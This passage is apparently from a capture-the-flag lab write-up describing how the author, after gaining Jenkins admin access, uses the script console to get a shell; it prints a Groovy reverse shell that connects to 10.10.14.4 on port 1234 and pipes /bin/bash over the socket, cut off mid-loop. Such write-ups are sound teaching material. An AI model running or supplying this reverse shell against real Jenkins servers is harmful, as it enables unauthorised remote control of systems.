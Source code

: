 I did a bit of googling on how to get inside the jenkins server after getting admin, but there were no clear answers. So ChatGPT helped me,&#x20;

<figure><img src="../../../.gitbook/assets/image (770).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

There is indeed a script console present. Let's make a reverse shell script using the Groovy language

```groovy
String host="10.10.14.4"; int port=1234;
String cmd="/bin/bash";

Socket s=new Socket(host,port);
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream(), se=s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available()>0) so.write(pi.read());
    while (pe.available()>0) se.write(pe.read());
    while (si.available()>0) po.write(si.read());
    po.flush(); so.flush(); se.flush();
```